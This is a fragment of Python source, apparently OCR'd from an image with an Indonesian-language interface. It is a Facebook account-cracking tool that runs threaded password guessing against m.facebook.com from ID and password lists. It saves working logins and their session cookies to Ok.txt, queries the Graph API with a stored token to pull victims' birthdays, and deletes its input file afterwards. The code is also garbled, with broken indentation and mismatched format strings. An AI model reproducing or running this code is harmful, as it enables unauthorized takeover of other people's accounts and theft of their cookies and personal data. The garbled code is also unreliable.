						try:
							self.apk= 'rozhak.json'
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print('[x] File Tidak Ada')
							menu()
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0],"pw":generate(i.split("<=>")[1])})
						except:continue
				except Exception as e:
					print('[x] File Tidak Valid')
					menu()
					continue
				print('[•] Hasil Ok Tersimpan Di Ok.txt')
				print('[•] Hasil Cp Tersimpan Di Cp.txt')
				print('──────────────────────────────────────────')
				ThreadPool(35).map(self.main,self.fl)
				os.remove(self.apk)
				print ('[Selesai]')
				break
	def pwlist(self):
		self.pw=raw_input("[?] Password : ").split(",")
		if len(self.pw) ==0:
			self.pwlist()
		else:
			for i in self.fl:
				i.update({"pw":self.pw})
                        print('[•] Hasil Ok Tersimpan Di Ok.txt')
                        print('[•] Hasil Cp Tersimpan Di Cp.txt')
			print('──────────────────────────────────────────')
			ThreadPool(30).map(self.main,self.fl)
			os.remove(self.apk)
			print ('[Selesai]')
	def main(self,fl):
		try:
			for i in fl.get("pw"):
				log = mfb(fl.get('id'), i, 'https://m.facebook.com')
				if log.get("status")=="success":
					print("\r\033[0;92m[Ok] "+(fl.get("id")+"\033[0;97m | \033[0;92m"+i+" "))
					self.ada.append("%s | %s"%(fl.get("id"),i))
					if fl.get("id") in open("Ok.txt").read():
						break
					else:
						open("Ok.txt","a+").write(
						"%s | %s\n\n"%(fl.get("id"),i,gets_cookies(log.get("cookies"))))
					ko="%s | %s\n\n"%(fl.get("id"),i,gets_cookies(log.get("cookies")))
					break
				elif log.get("status")=="cp":
					try:
						toket=open('login.txt','r').read()
						q=requests.get("https://graph.facebook.com/"+fl.get("id")+"?access_token="+toket)
						w=json.loads(q.text)
						tl=w["birthday"]

